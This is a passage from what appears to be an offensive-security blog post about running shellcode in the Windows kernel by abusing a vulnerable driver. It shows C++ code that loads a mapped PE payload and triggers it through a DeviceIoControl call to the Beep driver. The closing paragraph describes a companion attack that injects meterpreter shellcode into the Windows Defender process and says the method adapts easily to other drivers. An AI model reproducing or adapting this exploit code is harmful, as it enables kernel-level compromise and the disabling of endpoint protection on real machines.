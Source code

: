 ```C++
		PRINTA("[!] VirtualAlloc failed\n");
		return FALSE;
	}
	memcpy(g_BeepIRPShellcodeData->bPayload, pPeMapping, szPeMappingSize);
	g_BeepIRPShellcodeData->szPayloadSize = szPeMappingSize;

	//PrintHexData("pPeMapping:", pPeMapping, szPeMappingSize);

	return TRUE;
}
```

The following shows the resolving of function pointers and the updated IAT after the modifications:

{{< figure src="/images/x509.png" class="center" >}}

At offset +0x4000 is the updated IAT with the populated function pointers from above:

{{< figure src="/images/x510.png" class="center" >}}

Once we have everything set up correctly we call the beep handler:

```C++
VOID triggerBeepIO(HANDLE driver) {

	char out_buf[4000]; // doesnt really matter
	DWORD bytes_returned;
	PRINTA("[i] Sending Payload With Size 0x%x to Beep\n", g_szShellcodeDataSize);

	//hexdump(BeepIRPShellcodeData, my_shellcode_data_sz);
	BOOL result = DeviceIoControl(driver, 0x1234, g_BeepIRPShellcodeData, g_szShellcodeDataSize, out_buf, sizeof(out_buf), &bytes_returned, NULL);

	if (!result) {
		PRINTA("[!] Beep DeviceIOControl error %s\n", GetLastError());
	}

	PRINTA("[i] trigger DeviceIoControl Beep returns %d\n", result);
}
```

And our shellcode will execute:

{{< figure src="/images/x511.png" class="center" >}}

The full code including two attacks can be found on Github. The first attack variant solely executes a print statement in kernel mode to verify everything is working as expected. A second attack that I shamelessly stole from maldev academy is to enumerate all processes and inject a meterpreter shellcode into the Windows Defender process. If you ever want to mess with a vulnerable driver that can read and write memory using MmMapIoSpace it should be trivial to adapt the code as needed. All you basically need to do is to write your own read and write primitives and you are all set. happy kernel memory mapping !